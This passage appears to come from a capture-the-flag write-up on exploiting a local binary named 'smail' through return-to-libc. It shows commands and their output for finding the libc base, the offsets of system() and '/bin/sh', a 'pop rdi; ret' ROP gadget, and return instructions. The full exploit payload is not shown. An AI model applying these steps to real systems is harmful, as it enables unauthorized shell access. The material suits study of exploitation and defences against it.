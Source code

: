 The base address of libc is 0x00007ffff79e2000.

**To Get System Location**

"To call system, we obviously need its location in memory. We can use the readelf command for this"

	readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system

```bash
carlJ@incognito:~/mailing$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
   232: 0000000000159cd0    99 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   607: 000000000004f550    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1403: 000000000004f550    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```
The -s flag tells readelf to search for symbols, for example functions. Here we can find the offset of system from libc base is 0x4f550.

**To Get location of /bin/sh**

"Since _/bin/sh_ is just a string, we can use strings on the dynamic library we just found with _ldd_"

	strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh

```bash
carlJ@incognito:~/mailing$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 1b3e1a /bin/sh
```
The option -a tells it to scan the entire file; -t x tells it to output the offset in hex.


If we run the smail program its wanting user input. To passing the parameter in after the return pointer, you will have to use a pop rdi; ret gadget to put it into the RDI register.

```bash
carlJ@incognito:~/mailing$ ROPgadget --binary smail | grep rdi                                                                                                      
0x00000000004007f3 : pop rdi ; ret
```

Besides those functions the return address were should be included.

	objdump -d smail | grep ret

```bash
carlJ@incognito:~/mailing$ objdump -d smail | grep ret
  400556:       c3                      retq   
  400600:       f3 c3                   repz retq 
  400639:       c3                      retq   
  400679:       c3                      retq   
  40069a:       c3                      retq   
  4006a0:       f3 c3                   repz retq 
  4006de:       c3                      retq   
  400782:       c3                      retq   
  4007f4:       c3                      retq   
  400800:       f3 c3                   repz retq 
  40080c:       c3                      retq 
```
